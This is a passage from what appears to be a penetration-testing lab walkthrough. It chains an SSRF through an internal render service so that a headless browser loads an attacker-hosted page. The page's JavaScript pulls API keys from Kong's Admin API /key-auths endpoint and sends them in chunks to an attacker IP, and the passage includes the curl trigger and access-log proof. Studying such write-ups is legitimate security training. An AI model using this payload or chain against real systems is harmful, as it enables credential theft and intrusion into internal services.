 We can find the Admin API endpoint that returns API keys in Kong's documentation. Let's update our JavaScript function to call `/key-auths`, call the Render service, and then check `access.log`.
```html
<html>
<head>
<script>
function exfiltrate() {
    // Send initial status
    fetch("http://192.168.45.203/status?msg=script_started").catch(() => {});
    
    fetch("http://172.16.16.2:8001/key-auths")
    .then((response) => {
        fetch("http://192.168.45.203/status?msg=kong_response_received&status=" + response.status).catch(() => {});
        return response.text();
    })
    .then((data) => {
        fetch("http://192.168.45.203/status?msg=data_received&length=" + data.length).catch(() => {});
        chunks = data.match(new RegExp('.{1,1024}','g'));
        for(i = 0; i < chunks.length; i++) {
            fetch("http://192.168.45.203/callback?chunk=" + i + "&data=" + encodeURIComponent(chunks[i])).catch(() => {});
        }
    })
    .catch((error) => {
        fetch("http://192.168.45.203/error?msg=" + encodeURIComponent(error.toString())).catch(() => {});
    });
}
</script>
</head>
<body onload='exfiltrate()'>
<div></div>
</body>
</html>
```
After triggering the SSRF 
```bash
┌──(kali㉿kali)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.45.203/exfil.html"}' http://apigateway:8000/files/import
{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}                                                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 
```
We got the response to our kali machine
```log
┌──(kali㉿kali)-[/var/www/html]
└─$ tail -f /var/log/apache2/access.log           
192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /exfil.html HTTP/1.1" 200 768 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /status?msg=script_started HTTP/1.1" 404 492 "http://192.168.45.203/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /status?msg=kong_response_received&status=200 HTTP/1.1" 404 492 "http://192.168.45.203/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
192.168.217.135 - - [29/Jul/2025:14:22:15 -0400] "GET /status?msg=data_received&length=213 HTTP/1.1" 404 493 "http://192.168.45.203/exfil.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"
```